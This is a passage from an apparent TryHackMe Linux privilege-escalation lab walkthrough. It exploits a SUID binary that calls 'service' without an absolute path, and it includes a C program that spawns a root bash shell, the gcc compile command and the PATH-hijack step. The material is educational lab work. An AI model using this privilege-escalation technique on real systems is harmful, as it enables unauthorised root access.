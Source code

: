 Let's run the *strings* utility against the binary and look at the results.

![SUID Environment Variables Strings](../../assets/images/thm/linuxprivesc/54-suid_env_strings.png)

Based on the *strings* output, it looks like the binary attempts to start *apache2* using the *service* binary without specifying its absolute path (`/usr/sbin/service`). Note that the *service* binary typically has the SUID bit set by default.

Let's exploit this by creating our own binary with the same name which loads a simple Bash shell. We can use the following code:

```c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```
![SUID Environment Variables Code](../../assets/images/thm/linuxprivesc/55-suid_env_code.png)

Let's compile our code using *gcc*.

```console
gcc -o service /tmp/service.c
```
![SUID Environment Variables Compile](../../assets/images/thm/linuxprivesc/56-suid_env_compile.png)

Now all we need to do is prepend the directory where our malicious binary is located to the PATH variable and then execute the *suid-env* binary again to gain root privileges.
